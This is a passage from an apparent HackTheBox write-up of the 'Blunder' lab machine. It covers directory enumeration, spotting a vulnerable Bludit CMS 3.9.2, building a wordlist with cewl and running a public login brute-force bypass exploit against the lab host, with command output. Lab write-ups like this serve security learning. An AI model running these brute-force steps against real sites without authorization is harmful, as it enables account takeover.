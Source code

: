 ```terminal
/cgi-bin/             (Status: 301) [Size: 0] [--> http://10.10.10.191/cgi-bin]
/install.php          (Status: 200) [Size: 30]                                 
/LICENSE              (Status: 200) [Size: 1083]                               
/robots.txt           (Status: 200) [Size: 22]                                 
/robots.txt           (Status: 200) [Size: 22]                                 
/server-status        (Status: 403) [Size: 277]                                
/todo.txt             (Status: 200) [Size: 118]                                

===============================================================
```

Some of the interesting results we got are **/admin**,**/install.php**, **robots.txt** and **todo.txt**.

install.php and robots.txt also has nothing useful, the admin page gives us a login form. It seems the webserver is running Bludit CMS, looking at the source code of the login page, we see that the version of the CMS might be `3.9.2`. If we searched for the version we find that it is vulnerable to Authentication bruteforce bypass.

![cve](/assets/img/hackthebox/machines/blunder/cve.png)

Let's download the [Exploit](https://www.exploit-db.com/exploits/48942) and continue our enumeration.

todo.txt has some notes, and we find a possible username `fergus`. Let's now get a password list from the website using `cewl` and use the exploit we got to bruteforce the login.

```terminal
$ cewl -w pass.list  http://10.10.10.191
$ python3 exploit.py                                            
Exploit Usage: ./exploit.py -h [help] -l [url] -u [user.txt] -p [pass.txt]
$ python3 exploit.py -l http://10.10.10.191/admin/login.php -u ./name  -p ./pass.list
[*] Bludit Auth BF Mitigation Bypass Script by ColdFusionX

[<] Brute Force: Testing -> fergus:the
[*] Brute Force: Testing -> fergus:Load
[◢] Brute Force: Testing -> fergus:Plugins
[ ] Brute Force: Testing -> fergus:and

```
